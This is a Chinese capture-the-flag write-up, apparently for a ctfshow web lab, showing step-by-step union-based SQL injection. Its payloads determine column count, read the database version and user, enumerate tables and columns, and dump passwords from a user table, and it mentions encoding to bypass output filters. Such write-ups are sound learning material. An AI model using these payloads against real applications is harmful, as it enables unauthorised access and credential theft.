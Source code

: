 ![image-20250316165646687](./assets/image-20250316165646687.png)

同样存在输出过滤



同样慢慢来



闭合单引号并注释后面内容

```
1‘ --+
```

![image-20250316165748200](./assets/image-20250316165748200.png)



利用order by 判断回显位

```
1' order by 4 --+
```

![image-20250316170015719](./assets/image-20250316170015719.png)

order by 4异常



```
1' order by 3 --+
```

![image-20250316170041592](./assets/image-20250316170041592.png)

order by 3 正常显示

即有三个回显数



利用联合查询判断回显位

```
-1' union select 1,2,3 --+
```

![image-20250316170139772](./assets/image-20250316170139772.png)

三个回显位



获取版本信息，数据库名和用户信息

```
-1' union select version(),database(),user() --+
```

![image-20250316170207392](./assets/image-20250316170207392.png)

版本信息：10.3.18-MariaDB

数据库名：ctfshow_web

用户：root



获取表名

```
-1' union select 1,2,table_name from information_schema.tables where table_schema='ctfshow_web' --+
```

![image-20250316170437013](./assets/image-20250316170437013.png)

三张表

ctfshow_user

ctfshow_user2

ctfshow_user3



查询字段名

```
-1' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user' --+
```

![image-20250316170559514](./assets/image-20250316170559514.png)

```
-1' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user2' --+
```

![image-20250316170617133](./assets/image-20250316170617133.png)

```
-1' union select 1,2,column_name from information_schema.columns where table_name='ctfshow_user3' --+
```

![image-20250316170650912](./assets/image-20250316170650912.png)

存在三个字段

id

username

password



查询字段信息

由于存在输出过滤，因此我们只查询密码信息即可

```
-1' union select 1,2,password from ctfshow_user3 --+
```

![image-20250316170804950](./assets/image-20250316170804950.png)



或者编码绕过

hex

md5

base64



